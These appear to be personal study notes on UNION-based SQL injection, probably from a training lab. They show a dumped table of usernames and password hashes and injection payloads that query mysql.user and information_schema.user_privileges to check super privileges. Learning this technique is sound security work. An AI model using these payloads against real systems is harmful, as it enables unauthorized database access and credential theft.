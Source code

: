 we got it :

|   |   |   |   |   |   |   |   |   |
|---|---|---|---|---|---|---|---|---|
|1|||admin|||392037dbba51f692776d6cefb6dd546d|||
|2|||newuser|||9da2c9bcdf39d8610954e0e11ea8f45f|||

  

  

## Reading Files

- reading - writing - code excution on the backserver
- we start by gathering data about our

```
SELECT USER();
SELECT CURRENT_USER();
SELECT user FROM mysql.user;
```

select user(); —→> returns current user and host

select current_user(); —→ > returns current user also but witth the current permissions that current user has .

  

select user from mysql.user —→ selects mysql db and then at user(table) it shows us user(column) by saying select (the column name) its database.table

  

if we said that our current user is called (root).

and we wanted to knew is root user a DBU or DBAdmin

we will use ==super_priv== if we got y —→ then we are a super user and this means that when we used this command :

```
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
```

- if we want to see what we can do then we can use
    
    - grantee
    - and to filter we will use [WHERE grantee=” ’root’@’localhost’ ” ]
    
    ```
    cn' UNION SELECT 1, grantee, privilege_type, 4 FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -
    ```
    
    - and we will see all of the posssible privileges given to our current user :
    
    ![[Untitled 2.png|Untitled 2.png]]
    

  